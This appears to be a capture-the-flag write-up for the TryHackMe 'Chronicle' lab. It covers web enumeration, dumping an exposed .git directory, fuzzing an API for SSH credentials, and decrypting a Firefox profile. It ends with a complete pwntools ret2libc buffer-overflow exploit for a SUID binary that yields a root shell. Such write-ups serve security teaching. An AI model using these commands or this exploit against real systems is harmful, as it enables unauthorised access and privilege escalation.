


---
---

# THM - Chronicle (good ret2libc lab)

NMAP


`http://10.10.200.236/old/`


```bash
gobuster dir -u http://10.10.200.236/old -w /usr/share/seclists/Discovery/Web-Content/big.txt | grep -v 302
```


Found .git


- Download .git:
```bash
wget --recursive http://10.10.200.236/old/.git/ --continue

```
or use (--mirror)

- Read .git files:

```bash
git status

```


```bash
git checkout -- .

```
or

```bash
git restore .

```


Got the deleted files

Nothing in them.

- Look at the logs and grep for key:
```bash
git log -p | grep "key"

```


`http://10.10.200.236:8081/forgot`


Open in Burp:


Try changing the key value:


Try the API key found in the git logs:


Get - "Invalid Username" this time - so the key works


- Try fuzzing the right user (API Fuzzing):

```bash
ffuf -w /usr/share/seclists/Passwords/Common-Credentials/10k-most-common.txt -X POST -d '{"key":"7454c262d0d5a3a0c0b678d6c0dbc7ef"}' -u http://10.10.200.236:8081/api/FUZZ -fw 2

```


{"username":"**tommy**","password":"**DevMakesStuff01**"}

Credentials to SSH:


```bash
cat user.txt

```


```bash
last
```


Two new IP's:
**192.168.29.217**
**192.168.166.1**

But no network for those IP's:


carlJ has a .mozilla directory


Copy directory to /tmp
Copy the directory over to Kali:


```bash
wget http://10.10.200.236:8082/.mozilla/ --recursive --continue

```
- Use firefox_decrypt to get the password:


The second one requires a Primary Password to unlock the profile

Tried some simple passwords:

**password1** worked


Username: '**dev**'

Password: '**Pas\$w0RD59247**'

- su to carlJ


- Looking in mailing/ there seems to be an executable with SUID permissions
(Buffer overflow?)


Seg fault on option 2:


- Check protections:
```bash
checksec smail

```
or

```bash
pwn checksec smail

```


No PIE, so the binary is not affected by ASLR

- Check if ASLR has been enabled on the system:
```bash
cat /proc/sys/kernel/randomize_va_space

```


**0 means NO**

- **Because ASLR is not enabled, we don't need a leak function to get the base address**
**Instead:**

- Getting libc and its base:

```bash
ldd smail

```


Gives the base address of libc (which can be trusted - because no ASLR)

Also, the base address should end in three 0's - which it does:

**0x7ffff79e2000**

- Getting the location of system():
```bash
readelf -s /lib/x86_64-linux-gnu/libc.so.6 | grep system

```
The -s flag tells readelf to search for symbols, for example functions


**1403: 000000000004f550 45 FUNC WEAK DEFAULT 13 system@@GLIBC_2.2.5**

The <u>offset</u> of system <u>from libc</u> base is: **0x4f550**

(system = libc_base + **0x4f550**)

- Getting the location of /bin/sh:

Since /bin/sh is just a string, we can use strings on the dynamic library we just found with ldd.

Note that when passing strings as parameters you need to pass a pointer to the string,

not the hex representation of the string, because that's how C expects it

```bash
strings -a -t x /lib/x86_64-linux-gnu/libc.so.6 | grep /bin/sh

```
-a tells it to scan the entire file

-t x tells it to output the offset in hex




/bin/sh address: **0x1b3e1a**

- **<u>Because this is a 64bit arch:</u>**
  1.  Instead of passing the parameter in after the return pointer, you will have to use a pop rdi; ret gadget to put it into the RDI register

```bash
ROPgadget --binary smail | grep rdi

```


ROPgadget lets you search your gadgets on a binary.

It supports several file formats and architectures and uses the Capstone disassembler for the search engine

pop rdi; ret address: **0x4007f3**

2.  Find the address of a return function:

```bash
objdump -d smail | grep ret

```


Return address: **0x400556**

- Copy **smail** over to Kali
- chmod +x smail

- Open with gdb (gef)

```bash
gdb smail

```


pattern create (copy pattern)


r - To run

Copy pattern into signature


- Find the offset:
```bash
pattern search $rsp

```


- Create the payload (pwntools):
```python
#!/usr/bin/python3

from pwn import *

p = process('./smail')

# Addresses (example: these would need to match your libc + binary setup)
libc_base = 0x7ffff79e2000
system = libc_base + 0x4f550
binsh = libc_base + 0x1b3e1a
POP_RDI = 0x4007f3  # pop rdi; ret gadget

# Create the payload
payload = b'A' * 72                   # Buffer overflow padding
payload += p64(0x400556)              # Optional stack alignment (ret)
payload += p64(POP_RDI)               # Gadget to control RDI
payload += p64(binsh)                 # "/bin/sh" address
payload += p64(system)                # system("/bin/sh")
payload += p64(0x0)                   # Optional return address

# Interact with the process
p.clean()
p.sendline("2")
p.sendline(payload)
p.interactive()
```

- Root shell!



- If you get the EOF message, check your addresses again to make sure they are correct

